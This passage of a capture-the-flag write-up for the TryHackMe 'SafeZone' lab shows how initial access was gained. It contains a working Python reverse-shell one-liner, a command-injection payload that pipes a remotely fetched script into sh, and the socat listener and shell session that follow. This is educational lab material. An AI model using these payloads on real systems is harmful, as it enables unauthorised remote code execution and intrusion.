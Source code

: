 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# nano revshell.sh                                   
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Payload:**
```bash
; curl http://10.9.0.253/revshell.sh | sh
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230033507.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/12/30 03:28:04 socat[135993] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 03:28:04 socat[135993] N listening on AF=2 0.0.0.0:4445
                                                                  2022/12/30 03:34:29 socat[135993] N accepting connection from AF=2 10.10.245.138:43252 on AF=2 10.9.0.253:4445
                                                                    2022/12/30 03:34:29 socat[135993] N starting data transfer loop with FDs [5,5] and [7,7]
                                                 yash@safezone:/opt$ 
yash@safezone:/opt$ export TERM=xterm-256color
yash@safezone:/opt$ stty rows 23 columns 103
yash@safezone:/opt$ whoami;hostname;id;ip a
yash
safezone
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3137sec preferred_lft 3137sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
```

Boom! I'm user `yash`!

**flag.txt:**
```
yash@safezone:/opt$ cat /home/yash/flag.txt 
THM{Redacted}
```
